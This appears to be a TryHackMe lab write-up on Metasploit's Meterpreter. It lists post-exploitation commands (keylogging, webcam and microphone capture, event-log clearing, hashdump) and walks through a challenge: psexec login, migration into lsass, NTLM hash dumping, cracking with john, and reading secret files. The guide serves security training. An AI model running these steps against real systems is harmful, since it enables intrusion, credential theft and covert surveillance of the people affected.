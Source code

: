 <!-- TOC -->

- [Metasploit: Meterpreter](#metasploit-meterpreter)
    - [Meterpreter commands](#meterpreter-commands)
    - [Post-Exploitation Challenge](#post-exploitation-challenge)

<!-- /TOC -->

# Metasploit: Meterpreter

[Metasploit: Meterpreter Room](https://tryhackme.com/room/meterpreter)

Take a deep dive into Meterpreter, and see how in-memory payloads can be used for post-exploitation.

## Meterpreter commands

Core commands:

- `background`: Backgrounds the current session
- `exit`: Terminate the Meterpreter session
- `guid`: Get the session GUID (Globally Unique Identifier)
- `help`: Displays the help menu
- `info`: Displays information about a Post module
- `irb`: Opens an interactive Ruby shell on the current session
- `load`: Loads one or more Meterpreter extensions
- `migrate`: Allows you to migrate Meterpreter to another process
- `run`: Executes a Meterpreter script or Post module
- `sessions`: Quickly switch to another session

File system commands:

- `cd`: Will change directory
- `ls`: Will list files in the current directory (dir will also work)
- `pwd`: Prints the current working directory
- `edit`: will allow you to edit a file
- `cat`: Will show the contents of a file to the screen
- `rm`: Will delete the specified file
- `search`: Will search for files
- `upload`: Will upload a file or directory
- `download`: Will download a file or directory

Networking commands:

- `arp`: Displays the host ARP (Address Resolution Protocol) cache
- `ifconfig`: Displays network interfaces available on the target system
- `netstat`: Displays the network connections
- `portfwd`: Forwards a local port to a remote service
- `route`: Allows you to view and modify the routing table

System commands:

- `clearev`: Clears the event logs
- `execute`: Executes a command
- `getpid`: Shows the current process identifier
- `getuid`: Shows the user that Meterpreter is running as
- `kill`: Terminates a process
- `pkill`: Terminates processes by name
- `ps`: Lists running processes
- `reboot`: Reboots the remote computer
- `shell`: Drops into a system command shell
- `shutdown`: Shuts down the remote computer
- `sysinfo`: Gets information about the remote system, such as OS

Others Commands (these will be listed under different menu categories in the help menu):

- `idletime`: Returns the number of seconds the remote user has been idle
- `keyscan_dump`: Dumps the keystroke buffer
- `keyscan_start`: Starts capturing keystrokes
- `keyscan_stop`: Stops capturing keystrokes
- `screenshare`: Allows you to watch the remote user's desktop in real time
- `screenshot`: Grabs a screenshot of the interactive desktop
- `record_mic`: Records audio from the default microphone for X seconds
- `webcam_chat`: Starts a video chat
- `webcam_list`: Lists webcams
- `webcam_snap`: Takes a snapshot from the specified webcam
- `webcam_stream`: Plays a video stream from the specified webcam
- `getsystem`: Attempts to elevate your privilege to that of local system
- `hashdump`: Dumps the contents of the SAM database

## Post-Exploitation Challenge

| Title | IP Address |
| :----: | :----: |
| Win4Meterpreter | `1*.**.***.***` |

Using `msfconsole`:

```bash
msfconsole
db_nmap -A -vv -T4 -oN initial 1*.**.***.***
user exploit/windows/smb/psexec
hosts -R
set lhost <localhost>
set smbuser ballen
set smbpass Password1
run
```

RHOST:

```bash
sysinfo
```

> `Computer : A***-T***`

> `Domain : F****`

```bash
background
```

LHOST:

```bash
use post/windows/gather/enum_shares
set session 1
run
```

> `[*] Name: s********`

```bash
sessions 1
```

RHOST:

```bash
ps
```

> `756 632 lsass.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\lsass.exe`

```bash
migrate 756
hashdump
```

> `jchambers:1114:aad3b435b51404eeaad3b435b51404ee:6*******************************:::`

- Copy

```bash
background
```

LHOST:

```bash
cat > hash
```

- Paste

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```

> `T******* (?)`

```bash
sessions 1
```

RHOST:

```bash
search -f secrets.txt
```

> `C:\P****** F**** (***)\W****** M********* P*******\secrets.txt (35 bytes)`

```bash
cat "C:\P****** F**** (***)\W****** M********* P*******\secrets.txt"
```

> `My Twitter password is KDS********!`

```bash
search -f realsecret.txt
```

> `C:\*******\*******\realsecret.txt (34 bytes)`

```bash
cat "C:\*******\*******\realsecret.txt"
```

> `T** F**** i* t** f****** m** a****`

